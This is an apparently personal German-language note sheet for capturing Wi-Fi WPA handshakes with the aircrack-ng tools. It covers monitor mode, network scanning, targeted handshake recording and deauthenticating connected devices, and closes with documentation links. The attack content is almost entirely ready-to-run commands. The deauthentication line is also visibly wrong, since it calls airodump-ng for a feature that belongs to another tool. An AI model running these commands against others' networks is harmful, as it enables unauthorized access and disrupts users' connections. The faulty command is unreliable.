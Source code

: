 Meine uralte Dokumentation als ich im Hacker Fieber war.
#TODO aircrack-ng aufarbeiten und updaten
# WLAN Hash abgreifen
``` bash
# Nach Programmen suchen die den Monitor Modus aufhalten.
airmon-ng check
# Diese Programme beenden
airmon-ng check kill
# Monitor Modus der Wlan Karte starten.
airmon-ng start <WlanKarte>
# Netzwerke in Reichweite anzeigen
airodump-ng <WlanKarte>
# Handshake abgreifen starten
airodump-ng --bssid <BSSID> -c <Channel> --write <Dateiname> <WlanKarte>
# Geräte im Netzwerk deathentifizieren
airodump-ng --deauth <Anzahl> -a <BSSID> <WlanKarte>
```

# WLAN 
# Siehe
- https://www.aircrack-ng.org/doku.php?id=Main#introduction
- https://www.aircrack-ng.org/doku.php?id=Main#documentation